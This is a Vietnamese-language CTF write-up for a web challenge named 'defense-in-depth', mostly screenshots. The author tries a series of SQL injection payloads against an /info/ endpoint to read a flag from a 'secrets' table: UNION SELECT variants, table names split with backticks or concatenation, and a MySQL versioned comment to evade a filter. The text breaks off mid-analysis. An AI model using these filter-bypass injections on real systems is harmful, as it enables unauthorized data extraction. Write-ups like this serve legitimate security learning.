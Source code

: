 ## defense-in-depth

![image](https://hackmd.io/_uploads/r1HjNJfyxx.png)
![image](https://hackmd.io/_uploads/HJio4yMJee.png)
với payload này

```python!
GET /info/a'UNION SELECT * from secrets WHERE key = 'flag HTTP/2
```

![image](https://hackmd.io/_uploads/ry07SkM1el.png)
Có vẻ như SQLi nhưng chưa biết bypass qua như nào
![image](https://hackmd.io/_uploads/BJzADkzJlg.png)

---

![image](https://hackmd.io/_uploads/HJndFxMyle.png)

```python!
GET /info/a'UNION SELECT * from `s``e``c``r``e``t``s` WHERE key = 'flag HTTP/2
```

Khó nhỉ ; có vẻ như trong SQLite này thì muốn truy vấn phải gọi tên bảng
![image](https://hackmd.io/_uploads/S1ShlWfJxg.png)

```python!
GET /info/' UNION SELECT * FROM "sec" || "rets" /**/S HTTP/2
```

![image](https://hackmd.io/_uploads/BJTNb-fylg.png)

```python!
GET /info/' UNION SELECT * FROM secrets  where key='flag HTTP/2
```

Tuy nhiên chính vì check như này :

![image](https://hackmd.io/_uploads/H1OW0qNyeg.png)
![image](https://hackmd.io/_uploads/HyA4Ac41xl.png)

Mà a dev bỏ qua 1 mặt phẳng tấn công khác đó là `comment`
:::danger
Sẽ ra sao nếu secrets rơi vào comment
:::

```python=
/*!50000 union select `key`,`value`,3 from secrets where `key`='flag' */
```

- Đây là phần comment Vậy đưa nó vào câu query là được
- Đây là MySQL versioned comment → chỉ thực thi nếu MySQL phiên bản ≥ 5.000.

Tuy nhiên khi đưa lên `url`
`https://defense-in-depth.harkonnen.b01lersc.tf/info/x'/*!50000%20union%20select%20%60key%60,%60value%60,3%20from%20secrets%20where%20%60key%60='flag'%20*/%20'`
Nó trả về
![image](https://hackmd.io/_uploads/r1jpvaEyeg.png)
Vậy tại sao
nó sẽ mắc ở 1 trong ba luận lí
![image](https://hackmd.io/_uploads/r11GdTEkxx.png)
Hoặc
![image](https://hackmd.io/_uploads/ryrtOp4Jex.png)
![image](https://hackmd.io/_uploads/B1s3g0E1el.png)
Hoặc